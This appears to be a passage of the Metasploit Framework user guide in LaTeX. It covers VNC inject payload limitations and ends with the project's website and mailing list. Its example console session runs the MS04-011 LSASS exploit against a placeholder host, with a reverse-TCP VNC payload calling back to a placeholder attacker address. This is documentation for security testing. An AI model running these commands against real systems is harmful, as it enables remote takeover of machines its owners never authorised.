 \documentclass{report}
\begin{document}
\par
There are a few situations where the VNC inject payload will simply not work.
These problems are often cause by strange execution environments or other issues
related to a specific exploit or injection method. These issues will be
addressed as time permits:

\begin{itemize}
	\item The windows/brightstor/universal\_agent exploit will cause the VNC
    payload to crash, possibly due to a strange heap state.
\end{itemize}

\begin{verbatim}
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > set RHOST some.vuln.host
RHOST => some.vuln.host
msf exploit(ms04_011_lsass) > set PAYLOAD windows/vncinject/reverse_tcp
PAYLOAD => windows/vncinject/reverse_tcp
msf exploit(ms04_011_lsass) > set LHOST your.own.ip
LHOST => your.own.ip
msf exploit(ms04_011_lsass) > set LPORT 4321
LPORT => 4321
msf exploit(ms04_011_lsass) > exploit
\end{verbatim}

If the \texttt{vncviewer} application is in your path and the AUTOVNC option has
been set (it is by default), Metasploit will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0},
then use \texttt{vncviewer} to connect to 127.0.0.1 on port 5900.

\pagebreak

\chapter{More Information}

\section{Web Site}

\par
The metasploit.com website is the first place to check for updated modules and
new releases. This website also hosts the Opcode Database and a decent
shellcode archive.

\section{Mailing List}

\par
Metasploit hosts the \texttt{framework} mailing list for general discussion and
help. To subscribe to the mailing list, visit
\url{http://mail.metasploit.com/mailman/listinfo/framework}. Additionally, the
\texttt{framework} archives can be viewed at
\url{http://mail.metasploit.com/pipermail/framework}.
\end{document}
